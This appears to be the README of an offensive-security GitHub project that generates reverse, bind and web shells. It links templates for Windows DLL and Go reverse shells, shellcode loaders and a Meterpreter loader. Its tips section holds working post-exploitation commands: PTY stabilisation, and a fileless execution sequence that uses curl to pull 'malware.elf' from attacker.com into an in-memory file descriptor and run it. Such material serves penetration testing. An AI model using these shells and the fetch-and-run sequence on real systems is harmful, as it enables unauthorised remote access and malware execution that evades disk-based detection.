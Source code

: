 # Shells

![Demo](./assets/demo.gif)

A collection of reverse, bind and web shells from all over the internet.

## Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/shells.git@main
~~~

b) With `pip`.

~~~ bash
pip install --user git+https://github.com/dadevel/shells.git@main
~~~

## Usage

Just run `genshell` and select one of the many templates.

Some advanced templates require manual steps:

- [TCP reverse shell in C++ as Windows DLL](./genshell/templates/reverse/connector/windows-cpp/)
- [TCP reverse shell with Cosmopolitan Libc](./genshell/templates/reverse/connector/cosmopolitan/)
- [TCP reverse shell in Go](./genshell/templates/reverse/connector/golang/)
- [Reverse shell listener with Tmux and Socat](./genshell/templates/reverse/listener/tmux-socat-multiplexer/)
- [Python ELF loader via `memfd_create()` on Linux](./genshell/templates/exec/memfd-create.py)
- [Python shellcode loader on Linux](./genshell/templates/exec/mmap-ctype.py)
- [Meterpreter loader for Windows](./genshell/templates/exec/windows-minildr/)

## Tips

Metasploit payloads like `windows/shell_reverse_tcp` are one of the few reverse shells for Windows that support interactive commands.

### Linux PTY

Spawn a PTY and stabilize your shell with Python.

~~~ bash
python -c 'import pty;pty.spawn("/bin/bash")'
# ctrl+z
echo "stty sane;stty rows $LINES cols $COLUMNS;export TERM=xterm;" | xclip -sel clip
stty raw -echo
fg
# paste clipboard
~~~

Alternatively spawn a PTY with `script`.

~~~ bash
script -q -c /bin/bash /dev/null
~~~

### Linux memfd_create()

Create file in memory with Python 3.8 or newer ([source](https://twitter.com/randomdude999_/status/1629875560401780736)).

~~~
$ python3 -c "from os import*;fork()or(setsid(),print(f'/proc/{getpid()}/fd/{memfd_create(sep)}'),kill(0,19))"
/proc/139856/fd/3
$ curl -o /proc/139856/fd/3 https://attacker.com/malware.elf
$ /proc/139856/fd/3
~~~

### Other interesting tools

- [Kraken](https://github.com/kraken-ng/kraken), multi-language webshell
- [xc](https://github.com/xct/xc), reverse shell for Linux and Windows written in Go

